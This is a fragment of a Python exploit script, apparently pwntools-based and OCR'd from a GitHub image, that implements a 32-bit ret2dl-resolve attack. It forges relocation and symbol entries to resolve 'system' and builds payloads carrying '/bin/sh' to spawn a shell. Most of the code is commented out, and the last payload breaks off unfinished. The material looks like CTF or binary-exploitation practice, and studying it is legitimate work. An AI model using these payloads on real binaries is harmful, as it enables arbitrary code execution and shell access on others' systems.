 ```python
# payload_6 = "AAAA"
# payload_6 += p32(plt_0)
# payload_6 += p32(reloc_index)
# payload_6 += "AAAA"
# payload_6 += p32(1)
# payload_6 += p32(base_addr + 80)
# payload_6 += p32(len("/bin/sh"))
# payload_6 += fake_reloc
# payload_6 += "A" * align
# payload_6 += fake_sym
# payload_6 += "write\x00"
# payload_6 += "A" * (80 - len(payload_6))
# payload_6 += "/bin/sh\x00"
# payload_6 += "A" * (100 - len(payload_6))
# io.sendline(payload_6)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10
# r_info = (r_sym << 8) + 0x7
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = fake_sym_addr + 0x10 - dynstr
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)
# payload_7  = "AAAA"
# payload_7 += p32(plt_0)
# payload_7 += p32(reloc_index)
# payload_7 += "AAAA"
# payload_7 += p32(base_addr + 80)
# payload_7 += "AAAA"
# payload_7 += "AAAA"
# payload_7 += fake_reloc
# payload_7 += "A" * align
# payload_7 += fake_sym
# payload_7 += "system\x00"
# payload_7 += "A" * (80 - len(payload_7))
# payload_7 += "/bin/sh\x00"
# payload_7 += "A" * (100 - len(payload_7))
# io.sendline(payload_7)

reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
payload_7 = "AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += "AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += "AAAA"
payload_7 += "AAAA"
payload_7 += fake_reloc
```
